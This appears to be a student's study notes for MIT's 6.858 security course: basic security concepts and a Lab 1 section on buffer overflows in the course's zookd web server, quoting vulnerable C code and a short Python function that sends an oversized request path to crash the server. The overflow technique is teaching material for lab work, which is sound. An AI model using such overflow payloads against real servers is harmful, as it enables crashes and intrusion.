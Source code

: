 # 6.858 Spring 2022 

- [https://css.csail.mit.edu/6.858/2022/](Website 6.858 / Spring 2022)
- [https://www.youtube.com/watch?v=073D9t3ltEw](Video Lectures)

# Introduction

**Security**: The system works despite an adversary.

## Why is security hard?

Bugs, social engineering, guessing passwords, stealing laptops, monitoring networks...

- **Positive goal**: Can the TAs access the grades file?
- **Negative goal**: Only the TAs should access the grades file.

## Thread model

- **Goal**: Only Alice can access file F.
- **Threat model**: Assumptions about who you are up against.
- **Policy**: File system permissions, 2FA, login.
- **Mechanism**: The policy implementation.

## Good practices

- Monitor attacks.
- Reuse components.
- Conduct post-mortems.

## Attack x Defense

- **Defense**: Consider all possible attacks.
- **Attack**: Find one successful attack.

You don't need a perfect defense; you just need: **Cost to attack > Value.**

**Convenience, usability, and sharing** vs. **Security.**

# LAB 1: Buffer overflows

## Part 1

### Exercise 1

### Exploits

#### Exploit 1

In `zookd.c` the `reqpath` buffer can be exploited

```c
char reqpath[4096];

if ((errmsg = http_request_line(fd, reqpath, env, &env_len)))
    return http_err(fd, 500, "http_request_line: %s", errmsg);
```

In the `url_decode` the contents from the path `sp1` are moved into `reqpath`, without size validation

```c
url_decode(reqpath, sp1);
```

We can pass a big path to exploit this vulnerability

#### Exploit 2

In `http.c` the `value` and `envvar` buffers can be exploited

```c
const char *http_request_headers(int fd)
{
    static char buf[8192];      /* static variables are not on the stack */
    int i;
    char value[512];
    char envvar[512];
```

The `envvar` buffer has 512 bytes and buf 8192 bytes

```c
    if (strcmp(buf, "CONTENT_TYPE") != 0 &&
        strcmp(buf, "CONTENT_LENGTH") != 0) {
        sprintf(envvar, "HTTP_%s", buf);
        setenv(envvar, value, 1);
    } else {
        setenv(buf, value, 1);
    }
```

We can pass a big header to exploit this vulnerability

- In `http.c` the `pn` buffer can't be exploited by a buffer overflow but maybe we can use other techniques to get file access
- In `http.c` environment variables are set based on HTTP headers this can be very dangerous 

### Exercise 2

We can send a 5000 byte path to crash the program 

```python
def build_exploit(shellcode):
    path = b"A" * 5000
    req =   b"GET /" + path + b" HTTP/1.0\r\n" + \
            b"\r\n"
    return req
```

# Smashing the stack in the 21st Century 

https://www.youtube.com/watch?v=cJDRShqtTbk


